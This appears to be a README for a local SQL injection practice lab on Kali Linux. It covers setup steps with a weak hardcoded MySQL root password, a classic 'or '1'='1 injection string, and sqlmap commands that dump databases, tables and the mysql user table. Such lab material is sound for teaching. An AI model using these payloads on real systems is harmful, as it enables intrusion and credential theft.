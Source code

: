 on fresh installed linux kali 1.0.9a do:

sudo -s

apt-get install gedit phpmyadmin;

cd /var/www/;
git clone https://github.com/loeken/sqlinjection_examples;

cd sqlinjection_examples;
service mysql start;
use mysql;
update user set password=PASSWORD("changeme") where User='root';
flush privileges;
create database sqlinjection_examples;
use sqlinjection_examples;
source schema.sql;

example dork username=asdf' or '1'='1

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= --dbs

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql --tables

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql -T user --dump


